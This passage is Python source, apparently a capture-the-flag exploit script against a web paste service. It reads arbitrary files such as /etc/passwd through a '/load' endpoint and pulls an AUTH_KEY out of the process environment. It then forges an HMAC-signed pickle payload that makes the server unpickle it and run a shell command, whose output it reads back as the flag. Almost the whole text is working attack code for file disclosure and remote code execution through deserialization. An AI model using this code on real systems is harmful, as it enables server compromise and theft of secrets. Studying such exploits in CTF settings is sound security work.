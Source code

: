 ```python
    retrieve_path(target, '/etc/passwd', exploit)  # Needed to get code exec
    print(retrieve_path(target, '/tmp/matirflag', usable_key).decode('utf-8'))
    exploit = build_exploit(auth_key, '/home/flag/getflag > /tmp/matirflag')
    retrieve_path(target, '/etc/passwd', exploit)  # Needed to get code exec
    flag = retrieve_path(
            target, '/tmp/matirflag', usable_key)
    print('Flag: ', flag.decode('utf-8'))


def get_source_path(target):
    r = requests.get(target)
    src_line = [a for a in r.text.split('\n') if '<!-- Source' in a][0]
    return src_line.split(': ')[1].split(' ')[0]


def get_key_data(target):
    data = {'paste': 'foobarbaz'}
    r = requests.post(target + '/upload', data=data)
    resp = r.json()
    return resp['key']


def extract_key_nonce(key_data):
    sig, e_key = key_data.split('!')
    key_d = base64.urlsafe_b64decode(e_key)
    key_s = pickle.loads(key_d)
    return key_s['key'], key_s['iv']


def retrieve_path(target, src_path, key_data):
    data = {
            'file': src_path,
            'key': key_data,
            }
    r = requests.get(target + '/load', data)
    if r.status_code != 200:
        print('Error:', r.status_code)
        return ''
    key, iv = extract_key_nonce(key_data)
    return decrypt_data(r.content, key, iv)


def extract_auth_key(environ):
    pairs = environ.split(b'\x00')
    print((b'\n'.join(pairs)).decode('utf-8'))
    for p in pairs:
        k, v = p.split(b'=', 1)
        if k == b'AUTH_KEY':
            return v


def decrypt_data(data, key, iv):
    cip = AES.new(key, AES.MODE_CTR, nonce=iv)
    return cip.decrypt(data)


def build_exploit(auth_key, cmd):
    exp = Exp(cmd)
    exp_d = pickle.dumps(exp)
    mac = hmac.new(auth_key, msg=exp_d, digestmod=hashlib.sha256).digest()[:16]
    return (
            base64.urlsafe_b64encode(mac) + b"!" +
            base64.urlsafe_b64encode(exp_d)).decode('utf-8')
```